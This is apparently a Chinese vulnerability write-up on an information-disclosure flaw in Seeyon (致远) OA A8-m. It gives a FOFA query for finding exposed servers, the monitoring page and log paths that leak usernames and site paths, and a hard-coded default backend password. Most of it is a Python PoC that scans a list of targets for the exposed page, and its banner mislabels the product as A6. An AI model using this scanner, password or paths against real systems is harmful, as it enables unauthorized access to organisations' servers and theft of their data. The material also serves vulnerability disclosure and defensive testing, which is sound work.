



# 致远OA A8 状态监控页面信息泄露

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

> [!NOTE]
>
> 致远OA A8-m

## FOFA

> [!NOTE]
>
> title="A8-m"

## 漏洞复现

访问监控页面

```
http://xxx.xxx.xxx.xx/seeyon/management/status.jsp
```



后台密码为 **WLCCYBD@SEEYON**

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```






## 漏洞利用POC

> [!NOTE]
>
> 多个目标

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/management/index.jsp"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "Password" in response.text:
            print("\033[32m[o] 目标 {} 存在后台监控地址{}，默认密码为: WLCCYBD@SEEYON\033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```


## Goby & POC

> [!NOTE]
>
> Seeyon OA A8-m Information leakage

